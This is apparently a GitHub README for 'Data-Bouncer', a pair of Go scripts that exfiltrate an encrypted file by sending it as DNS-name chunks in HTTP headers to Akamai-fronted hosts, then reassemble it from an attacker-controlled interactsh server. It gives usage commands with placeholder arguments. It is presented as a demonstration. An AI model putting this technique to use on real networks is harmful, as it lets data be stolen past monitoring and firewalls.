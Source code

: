 # Data-Bouncer

I came across this Proof of Concept outlined here in https://thecontractor.io/data-bouncing.
I took their ideas and wrote two Go scripts that can be used for demonstration purposes.

One that encrypts and bounces the data you want to exfiltrate and the other that reassembles and decrypts it.

You will need an OOB dns server under you're control for this to work and collect the data. Here I'm using https://github.com/projectdiscovery/interactsh

From my testing this should work on any url that touches Akamai.

### Bounce.go
This script reads your chosen domain names from domains.txt, first encrypts your chosen file using a password you provided, encodes the file into Base32 and finally splits it into 63 byte chunks and sends them as part of a domain name in an HTTP header.

Example:
```
go run bounce.go -f <filename> -p <password> -u <UUID> -e <interact server url> -v
```

### Regenerate.go
This script reads the JSON output from your interactsh server, processes and reassembles the chunks and does the reverse by decoding, decrypting, and finally outputting the file.

Example:
```
go run regenerate.go -i <exported.json> -o <outputfile> -p <password> -u <UUID> -v
```

### Images

Example of bouncing a file:

![bouncer](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/87499151-3fef-4acc-b1d8-f67591ae21b9)

Example of regenerating the file:

![regen](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/6a2ac6d1-7d40-455b-b1ae-a83143078076)

Example from interactsh web client:

![interactsh](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/8c8f3ac9-ccf8-44be-9417-36bff4bea1c4)

Example of forward traffic from a FortiGate:

![FortiGate1](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/e4f26c0b-53ec-45db-a438-6fc340b87d1d)


